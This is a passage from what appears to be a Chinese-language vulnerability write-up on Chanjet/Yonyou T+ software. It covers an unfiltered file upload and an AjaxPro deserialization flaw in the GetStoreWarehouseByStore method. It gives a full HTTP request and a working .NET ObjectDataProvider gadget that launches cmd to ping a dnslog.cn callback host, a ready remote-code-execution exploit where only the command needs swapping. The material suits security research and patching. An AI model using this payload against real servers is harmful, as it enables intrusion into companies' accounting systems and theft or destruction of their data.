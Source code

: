 ```C#
      this.File1.PostedFile.SaveAs(this.Server.MapPath(".") + "\\images\\" + str2);
      string str3 = this.Server.MapPath(".") + "\\images\\" + str2;
      this.ViewState["fileName"] = (object) ("images/" + str2);
      TPContext.Current.Session["ImageName"] = (object) str3;
    }
```

上传的文件不大于2M，然后判断Content-Type 是`image/jpeg、image/bmp、image/gif、image/pjpeg`其中一个类型。就会将文件写入到images目录中。文件名直接用的上传文件的filename参数值，没有进行过滤等操作。



### GetStoreWarehouseByStore 反序列化漏洞

网传流量如下。问题的原因是因为使用了AjaxPro2

```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: your-ip
X-Ajaxpro-Method: GetStoreWarehouseByStore
 
{
  "storeID":{}
}
```

全局搜索`GetStoreWarehouseByStore`，定位到`/_PriorityLevel.cs`。

```
    public WarehouseDTO GetStoreWarehouseByStore(object storeID)
    {
      IRRAService service = ServiceFactory.getService() as IRRAService;
      WarehouseDTO warehouseByStore = (WarehouseDTO) null;
      if (service != null)
        warehouseByStore = service.GetStoreWarehouseByStore(Convert.ToString(storeID));
      return warehouseByStore;
    }
```

传入.net反序列化链条

```
{"storeID":{   
	"__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
	"MethodName":"Start","ObjectInstance":{
		"__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
		"StartInfo": {
			"__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
			"FileName":"cmd",
			"Arguments":"/c ping test.5f2d7i.dnslog.cn"
			}}}
}
```
